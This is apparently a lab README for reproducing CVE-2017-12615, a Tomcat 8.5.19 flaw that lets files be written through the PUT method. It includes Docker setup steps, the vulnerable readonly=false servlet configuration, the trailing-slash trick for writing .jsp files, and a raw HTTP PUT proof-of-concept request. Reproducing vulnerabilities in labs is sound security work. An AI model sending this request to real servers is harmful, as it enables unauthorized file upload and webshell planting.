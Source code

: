 # Tomcat Arbitrary Write-file Vulnerability through PUT Method (CVE-2017-12615)
[中文版本(Chinese version)](README.zh-cn.md)    
Tomcat version: 8.5.19 

## Environment Setup
```
docker-compose build
docker-compose up -d
```
After successfully running the commands above, you will see the example page of Tomcat through visiting the site `http://your-ip:8080`.


## Rationale
Reference links:
- http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0107097.html
- https://mp.weixin.qq.com/s?__biz=MzI1NDg4MTIxMw==&mid=2247483659&idx=1&sn=c23b3a3b3b43d70999bdbe644e79f7e5
- https://mp.weixin.qq.com/s?__biz=MzU3ODAyMjg4OQ==&mid=2247483805&idx=1&sn=503a3e29165d57d3c20ced671761bb5e

Tomcat sets up the write permission（readonly=false）, which leads to the result that we can write files into the server.
```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

Although Tomcat checks the file suffix to some extent(can't write jsp directly), we can still bypass the limitation through some file system features(such as using `/` in Linux).

## POC
Send the following packets directly and then the shell will be written into the Web root directory.

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```

As follows:

![](01.png)


